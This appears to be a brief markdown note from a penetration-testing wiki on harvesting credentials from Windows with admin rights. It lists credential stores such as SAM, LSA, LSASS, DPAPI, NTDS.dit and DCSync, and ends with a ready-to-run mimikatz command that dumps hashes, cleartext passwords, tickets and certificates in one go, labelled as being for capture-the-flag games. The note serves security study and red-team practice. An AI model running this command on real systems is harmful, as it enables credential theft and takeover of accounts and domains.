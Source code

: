 ```yaml
---
title: Privileged Windows Credential Access
---
```


[[notes/mitre-attack/credential-access|Access credentials]] with admin privileges on [[notes/windows/index]].

Overview:

- cached [[notes/windows/kerberos-dump|Kerberos Tickets]] of recent logins
- NT hashes of local users in [[notes/windows/registry-dump|SAM]]
- NT hashes and clear text passwords of service accounts as well domain cached credentials in [[notes/windows/registry-dump|LSA]]
- NT hashes of recent logins in [[notes/windows/lsass-dump|LSASS]] process memory
- clear text passwords stored in Credential Manager or Windows Vault and other secrets protected by [[notes/windows/dpapi-dump|DPAPI]]
- machine [[notes/windows/certificate-theft|certificates]]
- clear text passwords from [[notes/windows/rdp-dump|RDP client and server processes]] or [[notes/windows/rdp-session-takeover|RDP session takeover]]
- clear text passwords cached in [[notes/windows/wdigest-dump|WDigest]] on legacy systems
- NT hashes of domain accounts in [[notes/ad/ntds-dump|NTDS.dit]] on DC
- NT hashes of domain accounts via [[notes/ad/dcsync|DCSync]] from DC
- everything from [[notes/windows/credential-access-user]]

All in one command for CTFs.

=== "[[notes/tools/mimikatz]]"
    ~~~ bat
    .\mimikatz.exe token::elevate privilege::debug lsadump::sam lsadump::secrets lsadump::cache "lsadump::lsa /patch" sekurlsa::wdigest sekurlsa::logonpasswords sekurlsa::ekeys sekurlsa::kerberos sekurlsa::tickets "vault::cred /patch" "crypto::certificates /export" "crypto::certificates /systemstore:local_machine /export" exit
    ~~~

    If you are desperate add `ts::logonpasswords ts::mstsc`.
